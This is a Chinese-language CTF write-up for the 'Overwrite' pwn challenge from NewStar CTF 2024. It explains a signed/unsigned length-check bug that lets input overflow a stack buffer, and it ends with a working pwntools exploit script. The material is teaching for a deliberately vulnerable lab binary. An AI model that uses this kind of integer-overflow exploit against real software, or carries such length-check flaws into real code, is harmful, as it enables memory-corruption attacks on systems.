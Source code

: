 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# Overwrite

IDA反编译查看源代码

```c
unsigned __int64 func()
{
  int nbytes; // [rsp+Ch] [rbp-84h] BYREF
  size_t nbytes_4; // [rsp+10h] [rbp-80h] BYREF
  char nptr[72]; // [rsp+40h] [rbp-50h] BYREF
  unsigned __int64 v4; // [rsp+88h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  printf("pls input the length you want to readin: ");
  __isoc99_scanf("%d", &nbytes);
  if ( nbytes > 48 )
    exit(0);
  printf("pls input want you want to say: ");
  read(0, &nbytes_4, (unsigned int)nbytes);
  if ( atoi(nptr) <= 114514 )
  {
    puts("bad ,your wallet is empty");
  }
  else
  {
    puts("oh you have the money to get flag");
    getflag();
  }
  return v4 - __readfsqword(0x28u);
}
```

在这个函数中，我们可以输入一个数值 `nbytes`，然后读取相应长度的数据到 `nbytes_4` 中。如果 `nptr` 中的字符串被转换为数字且大于 `114514`，程序会打印 `flag`，否则会输出钱包空的信息。  
漏洞分析：

1. `nptr` 和 `nbytes_4` 之间的偏移是 0x30。如果输入大于 0x30 的正整数，程序将会通过 `exit()` 退出。
2. 观察到，`read()` 函数中使用的是 `unsigned int nbytes`，但在输入校验时 `nbytes` 是 `int` 类型，进行了有符号比较。这里产生了漏洞。

```c
read(0, &nbytes_4, (unsigned int)nbytes);
```

例如，`-1` 的 16 进制表示是 `0xffffffff`，对于有符号整数来说，这是一个负数；但在无符号整数中，它代表一个非常大的正整数。因此，利用这一点，输入一个负数值，可以绕过前面的大小检查，将后续输入的数据覆盖到 `nptr`，从而完成利用。

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
# p = process('./pwn')

p = remote('ip', port)
payload = b'a'*0x30 + b'114515'

p.sendlineafter(b': ', b'-1')


p.sendafter(b': ', payload)

p.interactive()
```

